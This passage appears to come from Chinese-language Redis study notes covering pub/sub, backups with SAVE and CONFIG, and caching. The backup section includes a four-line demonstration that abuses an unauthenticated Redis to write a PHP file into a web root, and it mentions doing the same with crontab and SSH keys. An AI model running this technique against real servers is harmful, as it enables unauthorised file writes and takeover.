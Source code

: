 ```
SUBSCRIBE runoobChat	# 先订阅消息
```

接下来用另外一个cli发布消息

```
PUBLISH runoobChat "Redis PUBLISH test"
```

## 数据备份

Redis **SAVE** 命令用于创建当前数据库的备份。

```
CONFIG GET dir	可以获取redis的安装目录
config get dbfilename	获取备份文件的名字
```

![image-20240422160935384](images/11.png)

![image-20240422161150016](images/12.png)

当然也可以设置dir的值，然后输出备份文件，

这也就是为什么在redis未授权的情况下可以去进行一系列威胁的操作

```
config set dir /var/www/html
config set dbfilename shell.php
set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
save
```

crontab和ssh公钥也有对应的文件，都是利用这个方式去写文件进行利用

一些常用的命令就是这些了

# redis在开发中的应用

基于redis的5种类型的数据结构，使得redis在开发场景有很多可以应用的地方

## 缓存

当你的应用需要读取某些数据时，首先从 Redis 中查找这些数据。如果数据在 Redis 中存在，就直接返回这些数据。如果数据在 Redis 中不存在，就从数据库中读取数据，并将读取到的数据存储到 Redis 中，以便下次使用。
